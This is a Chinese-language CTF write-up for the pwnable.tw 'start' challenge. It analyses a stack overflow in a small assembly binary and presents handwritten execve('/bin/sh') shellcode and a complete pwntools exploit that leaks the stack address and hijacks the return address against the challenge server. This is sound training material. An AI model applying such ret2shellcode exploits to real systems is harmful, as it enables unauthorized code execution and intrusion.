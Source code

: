 # pwnable.tw_start

题目类型：Pwn

自定义难度：★★☆☆☆

## 1 题目

![image-20211116233010832](pwnable.tw_start.assets/image-20211116233010832.png)

二进制：[start](pwnable.tw_start.assets/start)

## 2 解题

### 2.1 分析

先 nc 一下看看：

![image-20211117225534131](pwnable.tw_start.assets/image-20211117225534131.png)

输入了个字符串，ida 分析一下看看：

![image-20211116235302766](pwnable.tw_start.assets/image-20211116235302766.png)

看起来比较简单，应该是一个直接用汇编编写的程序。

Google 一下 `int 80h` 这一条语句，其中汇编指令 `int` 功能为保存现场后引发对应中断码的中断，其中 `0x80` 对应号的中断为系统调用。在进入系统调用前，需要设置一些如参，其中 `eax` 为系统调用功能号，可以在 `/usr/include/asm/unistd_<platform>.h` 中查找。

![image-20211117221608788](pwnable.tw_start.assets/image-20211117221608788.png)

查表可知，此程序分别调用了一次 `write` 和 `read` 系统调用，查一下这两个系统调用的功能和入参。

```c
ssize_t write(int fd, const void *buf, size_t count);  // 从 buf 读取 count 个字节写入文件描述符 fd
ssize_t read(int fd, void *buf, size_t count);         // 从文件描述符 fd 中读取 count 个字节到 buf
                                                       // 文件描述符 0: stdin 1: stdout 2: stderr
```

对应的汇编代码为：

```text 
write
4(系统调用码)  -> 寄存器 a
fd           -> 寄存器 b
buf          -> 寄存器 c
count        -> 寄存器 d

read
3(系统调用码)  -> 寄存器 a
fd           -> 寄存器 b
buf          -> 寄存器 c
count        -> 寄存器 d
```

程序逻辑为先压栈 20 个字节（字符串“Let's start the CTF:”），再从 `esp` 所指地址写 `0x14(20)` 个字符到 `stdout(1)`，再从 `stdin(0)` 读 `0x3C(60)` 个字节到 `esp` 所指的地址，这里存在栈溢出。

![image-20211117225757823](pwnable.tw_start.assets/image-20211117225757823.png)

没啥保护，应该可以直接 ret2shellcode。

### 2.2 调试

开始就下断点：

```gdb
b _start
```

执行完第二个系统调用后看一下栈内容：

![image-20211117230853740](pwnable.tw_start.assets/image-20211117230853740.png)

由于 `read` 函数的 `count` 入参限制了最大只能覆盖 60 个字节，返回地址下面只剩 `60 - 20 - 4 = 36` 字节，试试 pwntools 中自带的 shellcode

```python
shellcode = asm(shellcraft.sh())
print(shellcode)
print(len(shellcode))
```

![image-20211117233451713](pwnable.tw_start.assets/image-20211117233451713.png)

😬 一共 44 个字节，调试后也发现不太行，分析以下 shellcode，看看能不能利用一下上面多的 20 字节。

**注意：如果 shellcode 用到了 `push` 指令，要先移动 `esp` 以免 shellcode 指令被 `push` 进去的数据覆盖了，别问我怎么知道的 😭。**

最终 shellocde：

``` python
asm_code_0 = '''
    /* move stack */
    mov esp, 0xffffdddd                     /* bcddddffff */
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68                               /* 6a68 */
    push 0x732f2f2f                         /* 682f2f2f73 */
    push 0x6e69622f                         /* 682f62696e */
'''

asm_code_1 = '''
    mov ebx, esp                            /* 89e3 */
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101                          /* 6801010101 */
    xor dword ptr [esp], 0x1016972          /* 81342472690101 */
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
'''

ret_addr = 0xffffd044
shellcode = asm(asm_code_0) + b'\xeb\x05\x00' + p32(ret_addr) + asm(asm_code_1)
```

调试时完全按照汇编指令走，但是最终报错，这个错误应该可以无视，已经成功 shell 了。

![image-20211118231403303](pwnable.tw_start.assets/image-20211118231403303.png)

但是换 `process` 函数运行 exp 就没有效果，并且远程题目服务器也没有用，查资料得到应该是栈地址不是固定的，需要获取栈地址。代码段地址不会改变，可以利用静态的代码段在运行时获取动态的栈信息。

**小技巧：通过溢出改变返回地址到代码段，可以达到循环的效果，多次输入并溢出。**

再仔细看一下汇编代码（很多时候看 ida 反编译的汇编能找到一些细节）。

![image-20211119222252400](pwnable.tw_start.assets/image-20211119222252400.png)

一开始把 `esp` 压栈内了。

![image-20211119222403850](pwnable.tw_start.assets/image-20211119222403850.png)

运行到 `retn` 结束后，退回到了上一个栈帧，栈顶指向了一开始 `push esp` 近来的 `esp`，这个时候如果再运行上面框起来的这段代码，那么就可以打印出一开始压倒栈里的 `esp` 了，再根据这个 `esp` 精准覆盖返回地址。

**注意：`pwntools` 中的 `send` 和 `sendline` 要斟酌一下使用哪一个，否则会莫名奇妙某个内存被覆盖为 `0x0a` 😭。**

最后还是换了个短点的 shellcode 。

## 3 EXP

```
from pwn import *

sh = remote('chall.pwnable.tw', 10000)
# sh = process('./pwnable.tw_start.assets/start')
# sh = gdb.debug('./pwnable.tw_start.assets/start', '''
# b *08048060
# continue
# ''')

sh.recvuntil(b'Let\'s start the CTF:')
sh.send(b'A' * 20 + p32(0x8048087))

recv = sh.recv(4)
esp_addr = u32(recv)
print(recv.hex())

asm_code = '''
    push 6845231    /* 682f736800 */
    push 1852400175
    xor edx, edx
    xor ecx, ecx
    mov ebx, esp
    mov eax, 0xb
    int 0x80
'''

print(len(asm(asm_code)))
print(asm(asm_code).hex())
ret_addr = esp_addr - 0x4 + 0x14 + 0x4

shellcode = b'A' * 20 + p32(ret_addr) + asm(asm_code)
print(len(shellcode))
print(shellcode.hex())

sh.sendline(shellcode)
sh.interactive()
```

![image-20211119232914545](pwnable.tw_start.assets/image-20211119232914545.png)

拿到 flag，虽然有参考别人的 Writeup 😢。

## 4 存疑

为什么这道题目的调用栈地址是动态的？这个要怎么判断？